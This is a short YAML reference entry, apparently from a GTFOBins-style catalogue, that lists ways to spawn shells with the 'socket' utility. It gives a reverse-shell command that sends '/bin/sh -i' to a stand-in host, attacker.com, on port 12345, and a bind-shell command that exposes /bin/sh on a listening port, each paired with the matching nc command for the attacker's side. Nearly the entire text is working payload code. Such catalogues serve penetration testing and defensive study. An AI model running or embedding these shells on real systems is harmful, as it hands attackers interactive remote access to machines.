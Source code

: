 ```yaml
---
function:
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        RHOST=attacker.com
        RPORT=12345
        socket -qvp '/bin/sh -i' $RHOST $RPORT
  bind-shell:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell.
      code: |
        LPORT=12345
        socket -svp '/bin/sh -i' $LPORT
---
```

